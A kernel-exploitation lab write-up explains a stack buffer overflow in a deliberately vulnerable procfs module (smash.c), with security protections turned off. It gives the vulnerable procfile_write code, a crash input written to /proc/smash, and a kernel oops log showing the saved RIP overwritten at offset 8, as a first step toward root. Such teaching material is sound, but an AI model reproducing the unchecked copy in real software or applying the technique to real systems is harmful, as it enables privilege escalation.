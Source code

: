 # Lab 6 - Stack Smashing

In this Lab, we will be exploiting a buffer overflow vulnerability in a kernel module to attain root privileges.
We will be doing this in the x64 kernel image provided.
The following mitigations will be turned off in this lab:
 - SMEP / SMAP
 - kallsyms protection.
 - KASLR

You can read about them in more detail from the documentation provided for the previous lab.

###  Premise

We are the user on the system where a vulnerable kernel module has been inserted. 
This kernel module (smash.c) is similar to the one we saw in Lab 3. 
The module does the following : 
 - Creates a procfs file */proc/smash*, for which our user has read and write permissions.
 - */proc/smash* implements read and write, where the user can write to the buffer and the content written will be printed out when the file is read from.

#### Setting up the Premise
After compiling the module, copy  the setup script, (cmd.sh) and the complied module, (smash.ko) into the system using scp.
After which you can simply make the script executable and run which will setup the rest. 
```sh
scp -P 5022 cmd.sh modules/smash.ko root@localhost:.
```
On the system, once logged in:
```sh
chmod +x cmd.sh
./cmd.sh
```
### Vulnerability

The module has a very obvious buffer overflow vulnerability in the implementation of `procfile_write`.
```C
static
ssize_t procfile_write(struct file *file,const char *buffer, size_t count, loff_t *offset)
{
char localbuf[8];
/* get buffer size */
procfs_buffer_size = count;
/* write data to the buffer */
if ( copy_from_user(procfs_buffer, buffer, procfs_buffer_size) ) {
return -EFAULT;
}
memcpy(localbuf,procfs_buffer,procfs_buffer_size);
printk(KERN_INFO "copied to buffer : %s", localbuf);
return procfs_buffer_size;
}
```
There is no check before the `memcpy()` which copies contents from a user controlled buffer `procfs_buffer` of size 1024 bytes to `localbuf`. This results in a ridiculously big and easily exploitable buffer overflow.

### PoC

To check if we can exploit this vulnerability we will try to jump to an arbitrary address before we do anything meaningful.
To do this, the idea is that we will overflow the buffer to overwrite the saved `rip`, from where we will jump to our payload.
Since there are not a lot of local variables and the buffer is decidedly very small. By simply writing alphabets to `/proc/smash`, we can be sure of where the saved `rip` is.

```sh
printf "ABCDEFGHIJKLMNOPQRSTUVWXYZ" > /proc/smash
```

This results in a segmentation fault. Looking at the dmesg, we see the following : 

```sh
[  186.108640] copied to buffer : ABCDEFGHIJKLMNOPQRSTUVWXYZ
[  186.111020] general protection fault: 0000 [#1] SMP NOPTI
[  186.113342] CPU: 0 PID: 1109 Comm: sh Tainted: G           O      4.18.16 #1
[  186.113890] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS rel-1.11.2-0-gf9626ccb91-prebuilt.qemu-project.org 04/01/2014
[  186.114882] RIP: 0010:0x504f4e4d4c4b4a49
[  186.115089] Code: Bad RIP value.
[  186.115612] RSP: 0018:ffffc900000ffe48 EFLAGS: 00000292
[  186.115887] RAX: 000000000000001a RBX: ffff880005892900 RCX: 0000000000000000
[  186.116201] RDX: ffff88000781d250 RSI: ffff8800078154f8 RDI: ffff8800078154f8
[  186.116511] RBP: fffffffffffffffb R08: 5554535251504f4e R09: 0000000000000174
[  186.116862] R10: 5251504f4e4d4c4b R11: 4d4c4b4a49484746 R12: ffffc900000fff10
[  186.117240] R13: 00007f56a1745e20 R14: 0000000000000000 R15: 0000000000000000
[  186.117724] FS:  00007f56a19626a0(0000) GS:ffff880007800000(0000) knlGS:0000000000000000
[  186.118233] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[  186.118659] CR2: 00000000004542ce CR3: 0000000005a3c000 CR4: 00000000000006f0
[  186.119372] Call Trace:
[  186.121654]  ? __vfs_write+0x21/0x150
[  186.121995]  ? selinux_file_permission+0xd0/0x120
[  186.122370]  ? _cond_resched+0x11/0x40
[  186.122613]  ? vfs_write+0xab/0x190
[  186.122835]  ? ksys_write+0x3d/0x90
[  186.123134]  ? do_syscall_64+0x43/0xf0
[  186.123496]  ? entry_SYSCALL_64_after_hwframe+0x44/0xa9
[  186.124010] Modules linked in: smash(O)
[  186.125733] ---[ end trace 2d33769f5c4f1df6 ]---
[  186.126354] RIP: 0010:0x504f4e4d4c4b4a49
[  186.126681] Code: Bad RIP value.
[  186.126991] RSP: 0018:ffffc900000ffe48 EFLAGS: 00000292
[  186.127627] RAX: 000000000000001a RBX: ffff880005892900 RCX: 0000000000000000
[  186.128289] RDX: ffff88000781d250 RSI: ffff8800078154f8 RDI: ffff8800078154f8
[  186.128835] RBP: fffffffffffffffb R08: 5554535251504f4e R09: 0000000000000174
[  186.129466] R10: 5251504f4e4d4c4b R11: 4d4c4b4a49484746 R12: ffffc900000fff10
[  186.129989] R13: 00007f56a1745e20 R14: 0000000000000000 R15: 0000000000000000
[  186.130608] FS:  00007f56a19626a0(0000) GS:ffff880007800000(0000) knlGS:0000000000000000
[  186.131313] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[  186.131728] CR2: 00000000004542ce CR3: 0000000005a3c000 CR4: 00000000000006f0

```

The lines of our interest are : 

```sh
[  186.114882] RIP: 0010:0x504f4e4d4c4b4a49
[  186.115089] Code: Bad RIP value.
```

The `rip` value is the 'IJKLMNOP' part of our input. Thus we now know for sure that we can jump to an arbitrary address.
We also have the exact offset to saved `rip` - 8. 
